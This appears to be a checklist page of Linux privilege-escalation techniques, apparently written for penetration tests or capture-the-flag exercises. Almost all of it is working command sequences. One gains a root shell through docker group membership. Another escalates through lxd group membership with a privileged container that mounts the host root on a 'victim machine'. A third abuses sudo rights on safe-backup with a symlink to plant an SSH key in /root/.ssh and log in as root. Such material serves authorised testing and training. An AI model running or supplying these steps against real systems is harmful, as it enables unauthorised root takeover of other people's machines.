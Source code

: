 * [ ] Is the user beloging to docker?

```
 # this will spawn a root shell
 docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

* [ ] Is the user beloging to lxd?

```
 # clone the repo and build an alpine image
 git clone https://github.com/saghul/lxd-alpine-builder
 cd lxd-alpine-builder
 sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
 sudo ./build-alpine -a i686

 # transfer the image to the target, then import the image
 lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

 # before running the image, start and configure the lxd storage pool as default 
 lxd init

 # run the image
 lxc init myimage mycontainer -c security.privileged=true

 # mount the /root into the image
 lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

 # pop the shell
 lxc start mycontainer
 lxc exec mycontainer /bin/sh
```

* [ ] Ability to use [safe-backup](https://github.com/scrwdrv/safe-backup) as another user (root)?

```
 # you can install safe-backup on your system, now you can
 # potentially backup whatever you want e.g.: your root public ssh key!

 ## Preparation
 ### ON ATTACKING MACHINE
 sudo safe-backup -i /root/.ssh/ -o /tmp/backup
 # copy the safe-backup's encryption key to the /tmp/backup directory
 sudo cp /root/.config/safe-backup/key.safe /tmp/backup/key.safe
 # transfer them to the target machine

 ## Getting ready
 ### ON TARGET MACHINE
 # you have to import the newly downloaded encryption key :)
 sudo /usr/bin/safe-backup --import-key /path/where/is/key.safe
 # When decrypting files, safe-backup creates # a new directory
 # with the same name as the backup but without the .bua extension.
 # If this directory already exists, the existing directory is used
 #rather than a new one being created. We can exploit this by
 # creating a symbolic link to /root/.ssh and having safe-backup
 # decrypt folders into this directory.
 ln -s /root/.ssh /path/where/is/-root-.ssh
 
 ## Exploitation
 ### ON TARGET MACHINE
 sudo safe-backup -d /path/where/is/-root-.ssh.bua
 ### ON ATTACKING MACHINE
 sudo ssh -i /root/.ssh/id_rsa root@$IP
```
